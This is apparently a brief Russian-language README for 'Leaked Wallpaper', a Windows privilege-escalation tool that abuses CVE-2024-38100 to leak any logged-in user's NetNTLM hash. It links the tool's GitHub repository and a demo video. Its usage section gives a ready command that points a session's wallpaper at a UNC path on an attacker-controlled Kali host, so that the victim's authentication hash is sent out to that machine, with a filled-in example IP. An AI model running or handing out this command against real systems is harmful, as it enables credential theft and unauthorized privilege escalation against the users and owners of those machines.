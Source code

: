 ## Введение 

**Leaked Wallpaper** - инструмент повышения привилегий (исправленный с помощью **CVE-2024-38100** в KB5040434), который позволяет получить **доступ к хэшу NetNTLM** пользователя из любого сеанса на компьютере, даже если мы работаем от имени пользователя с низкими привилегиями.

**GiHub** с подробностями: [MzHmO/LeakedWallpaper: Leak of any user's NetNTLM hash.](https://github.com/MzHmO/LeakedWallpaper)

---
## Использование

``` shell
.\LeakedWallpaper.exe <session> \\<KALI IP>\c$\1.jpg [-downgrade]

# Example
  .\LeakedWallpaper.exe 1 \\172.16.0.5\c$\1.jpg -downgrade
```

---

## Video

[https://youtu.be/InyrqNeaZfQ](https://youtu.be/InyrqNeaZfQ)

If blocked, see [demo.mkv](https://github.com/MzHmO/LeakedWallpaper/blob/main/demo.mkv)
